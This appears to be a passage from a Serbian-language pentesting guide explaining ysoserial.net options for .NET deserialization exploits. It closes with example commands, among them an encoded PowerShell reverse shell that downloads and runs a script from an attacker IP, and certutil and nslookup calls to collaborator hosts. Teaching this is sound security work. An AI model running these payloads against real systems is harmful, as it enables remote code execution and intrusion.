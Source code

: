 Ako želite da saznate **kako ysoserial.net kreira svoj eksploit**, možete [**proveriti ovu stranicu gde je objašnjen ObjectDataProvider gadget + ExpandedWrapper + Json.Net formatter**](basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net.md).

Glavne opcije **ysoserial.net** su: **`--gadget`**, **`--formatter`**, **`--output`** i **`--plugin`.**

* **`--gadget`** se koristi da se naznači gadget koji će biti zloupotrebljen (naznačiti klasu/funkciju koja će biti zloupotrebljena tokom deserializacije radi izvršavanja komandi).
* **`--formatter`**, koristi se da se naznači metoda za serijalizaciju eksploita (trebate znati koju biblioteku koristi pozadina za deserializaciju payloada i koristiti istu za serijalizaciju).
* **`--output`** se koristi da se naznači da li želite eksploit u **sirovom** ili **Base64** kodiranom formatu. _Imajte na umu da će **ysoserial.net** kodirati payload koristeći **UTF-16LE** (podrazumevano kodiranje na Windowsu), pa ako dobijete sirovi format i samo ga kodirate sa linux konzole, možda ćete imati neke **probleme sa kompatibilnošću kodiranja** koji će sprečiti ispravno funkcionisanje eksploita (u HTB JSON kutiji payload je radio i u UTF-16LE i ASCII, ali to ne znači da će uvek raditi)._
* **`--plugin`** ysoserial.net podržava dodatke za izradu **eksploita za određene okvire** kao što je ViewState

#### Više parametara ysoserial.net

* `--minify` će pružiti **manji payload** (ako je moguće)
* `--raf -f Json.Net -c "anything"` Ovo će naznačiti sve gadžete koji se mogu koristiti sa određenim formatterom (`Json.Net` u ovom slučaju)
* `--sf xml` možete **naznačiti gadžet** (`-g`) i ysoserial.net će tražiti formate koji sadrže "xml" (bez obzira na veličinu slova)

**ysoserial primeri** za kreiranje eksploita:

```bash
#Send ping
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "ping -n 5 10.10.14.44" -o base64

#Timing
#I tried using ping and timeout but there wasn't any difference in the response timing from the web server

#DNS/HTTP request
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "nslookup sb7jkgm6onw1ymw0867mzm2r0i68ux.burpcollaborator.net" -o base64
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "certutil -urlcache -split -f http://rfaqfsze4tl7hhkt5jtp53a1fsli97.burpcollaborator.net/a a" -o base64

#Reverse shell
#Create shell command in linux
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.44/shell.ps1')" | iconv  -t UTF-16LE | base64 -w0
#Create exploit using the created B64 shellcode
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQANAAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQA=" -o base64
```
